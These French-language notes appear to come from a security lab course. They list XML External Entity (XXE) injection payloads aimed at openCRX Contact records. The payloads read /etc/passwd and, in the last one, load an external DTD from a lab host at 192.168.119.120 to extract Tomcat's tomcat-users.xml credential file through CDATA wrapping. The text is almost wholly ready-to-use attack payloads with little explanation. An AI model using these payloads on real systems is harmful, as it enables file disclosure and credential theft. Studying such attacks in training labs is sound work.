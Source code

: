 # Payloads

## Exemple basique

    <?xml version="1.0"?>
    <!DOCTYPE data [
    <!ELEMENT data ANY >
    <!ENTITY lastname "Replaced">
    ]>
    <org.opencrx.kernel.account1.Contact>
      <lastName>&lastname;</lastName>
      <firstName>Tom</firstName>
    </org.opencrx.kernel.account1.Contact>

## Test avec /etc/passwd

    <?xml version="1.0"?>
    <!DOCTYPE data [
    <!ELEMENT data ANY >
    <!ENTITY lastname SYSTEM "file:///etc/passwd">
    ]>
    <org.opencrx.kernel.account1.Contact>
      <lastName>&lastname;</lastName>
      <firstName>Tom</firstName>
    </org.opencrx.kernel.account1.Contact>

## Exemple de wrapper (fichier wrapper.dtd)

    <!ENTITY wrapper "%start;%file;%end;">

## Payload final incluant notre wrapper 

    <?xml version="1.0"?>
    <!DOCTYPE data [
    <!ENTITY % start "<![CDATA[">
    <!ENTITY % file SYSTEM "file:///home/student/crx/apache-tomee-plus-7.0.5/conf/tomcat-users.xml" >
    <!ENTITY % end "]]>">
    <!ENTITY % dtd SYSTEM "http://192.168.119.120/wrapper.dtd" >
    %dtd;
    ]>
    <org.opencrx.kernel.account1.Contact>
      <lastName>&wrapper;</lastName>
      <firstName>Tom</firstName>
    </org.opencrx.kernel.account1.Contact>


